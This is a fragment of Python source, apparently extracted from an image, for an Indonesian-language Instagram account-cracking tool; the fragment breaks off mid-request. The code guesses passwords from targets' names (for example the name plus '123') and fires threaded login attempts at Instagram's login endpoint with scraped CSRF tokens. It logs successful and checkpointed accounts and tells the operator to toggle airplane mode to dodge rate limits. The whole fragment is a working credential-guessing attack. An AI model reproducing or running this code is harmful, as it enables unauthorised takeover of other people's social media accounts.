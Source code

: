 		print(f"""
 [{H}+{C}] Hasil OK disimpan ke: result/{day}.txt
 [{O}+{C}] Hasil CP disimpan ke: result/{day}.txt

 [{M}!{C}] hidupkan mode pesawat  setiap 2 menit
		""")
		with ThreadPoolExecutor(max_workers=30) as shinkai:
			for i in user:
				try:
					username=i.split("|")[0]
					password=i.split("|")[1].lower()
					for w in password.split(" "):
						if len(w)<3:
							continue
						else:
							w=w.lower()
							if o=="1":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w+'123']
								else:
									sandi=[w]
							elif o=="2":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w+'123',w]
								else:
									sandi=[w+'123',w]
							elif o=="3":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w+'123',w,password.lower()]
								else:
									sandi=[w+'123',w,password.lower()]
							shinkai.submit(self.crackAPI,username,sandi,uaAPI)
				except:
					pass
		exit(f'\n\n [{U}#{C}] Crack selesai...')

	def APIinfo(self,user):
		try:
			x=s.get("https://www.instagram.com/%s/?__a=1"%(user),headers={"user-agent":USN})
			x_jason=x.json()["graphql"]["user"]
			nama=x_jason["full_name"]
			pengikut=x_jason["edge_followed_by"]["count"]
			mengikut=x_jason["edge_follow"]["count"]
			postingan=x_jason["edge_owner_to_timeline_media"]["count"]
		except:
			pass

		return nama,pengikut,mengikut,postingan

	def crackAPI(self,user,pas,uaAPI):
		global loop,success,checkpoint
		sys.stdout.write(f"\r [CRACK][{K}{loop}/{len(internal)}{C}] {H}[LIVE :{len(success)}]{C}  {M}[FUCK :{len(checkpoint)}]{C} "),
		sys.stdout.flush()
		try:
			for pw in pas:
				token=s.get('https://www.instagram.com/accounts/login/')
				headers = {
					'Host': 'www.instagram.com',
					'User-Agent': uaAPI,
					'Accept': '/',
					'Accept-Language': 'id,en-US;q=0.7,en;q=0.3',
					'Accept-Encoding': 'gzip, deflate, br',
					'X-CSRFToken': token.cookies['csrftoken'],
					'X-Instagram-AJAX': '1d6caaf37cd2',